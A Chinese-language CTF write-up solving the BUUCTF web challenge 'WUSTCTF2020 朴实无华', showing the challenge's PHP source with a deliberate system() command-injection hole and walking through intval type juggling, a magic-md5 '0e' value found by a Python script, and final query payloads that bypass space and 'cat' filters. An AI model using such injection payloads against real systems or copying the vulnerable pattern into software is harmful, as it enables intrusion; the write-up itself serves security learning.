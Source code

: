 ```yaml
---
title: WUSTCTF2020 朴实无华
date: 2023-01-02 19:04 +0800
categories: [CTF,WEB]
tags: [web,buuctf]
media_subpath: /
---
```


第一层：robots.txt

```txt
User-agent: *
Disallow: /fAke_f1agggg.php
```

第二层：header头

![image-20230102190519868](assets/image-20230102190519868.png)



```php
<?php
header('Content-type:text/html;charset=utf-8');
error_reporting(0);
highlight_file(__file__);


//level 1
if (isset($_GET['num'])){
    $num = $_GET['num'];
    if(intval($num) < 2020 && intval($num + 1) > 2021){
        echo "我不经意间看了看我的劳力士, 不是想看时间, 只是想不经意间, 让你知道我过得比你好.</br>";
    }else{
        die("金钱解决不了穷人的本质问题");
    }
}else{
    die("去非洲吧");
}

//level 2
if (isset($_GET['md5'])){
   $md5=$_GET['md5'];
   if ($md5==md5($md5))
       echo "想到这个CTFer拿到flag后, 感激涕零, 跑去东澜岸, 找一家餐厅, 把厨师轰出去, 自己炒两个拿手小菜, 倒一杯散装白酒, 致富有道, 别学小暴.</br>";
   else
       die("我赶紧喊来我的酒肉朋友, 他打了个电话, 把他一家安排到了非洲");
}else{
    die("去非洲吧");
}

//get flag
if (isset($_GET['get_flag'])){
    $get_flag = $_GET['get_flag'];
    if(!strstr($get_flag," ")){
        $get_flag = str_ireplace("cat", "wctf2020", $get_flag);
        echo "想到这里, 我充实而欣慰, 有钱人的快乐往往就是这么的朴实无华, 且枯燥.</br>";
        system($get_flag);
    }else{
        die("快到非洲了");
    }
}else{
    die("去非洲吧");
}
?>
```

level 1

```php
(intval($num) < 2020 && intval($num + 1) > 2021)
```

intval获取变量对的整数值，这里有两种方法都可以

```php
<?php
$a = '1e11';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);

$a = '0x9999';
echo intval($a);
echo PHP_EOL;
echo intval($a+1);
```

level 2

```
$md5=$_GET['md5'];
if ($md5==md5($md5))
```

md5加密前后都相等，这里参考网上的脚本和答案

```python
import hashlib
i = 0
while True:
    text = '0e{}'.format(i)
    m = hashlib.md5(text.encode()).hexdigest()
    if m[0:2] == '0e' :
        if m[2:].isdigit():
            print(text,m)
            break
    i +=1
# 0e215962017
```

level 3

```php
if(!strstr($get_flag," ")){
	$get_flag = str_ireplace("cat", "wctf2020", $get_flag);
	system($get_flag);
```

(!strstr($get_flag," "))

匹配到空格为FALSE，不能有空格

$IFS 在执行 `ls$IFS/` 是可以的，到后面执行读取命令时，不知道为什么失效



str_ireplace("cat", "wctf2020", $get_flag);

cat 替换成 wctf2020，执行的命令最好不要出现 cat，当然这里可以绕过

?num=0x9999&md5=0e215962017&get_flag=c\a\t%09fll*

?num=0x9999&md5=0e215962017&get_flag=tac%09fll*

![image-20230102185754850](assets/image-20230102185754850.png)

![image-20230102190212349](assets/image-20230102190212349.png)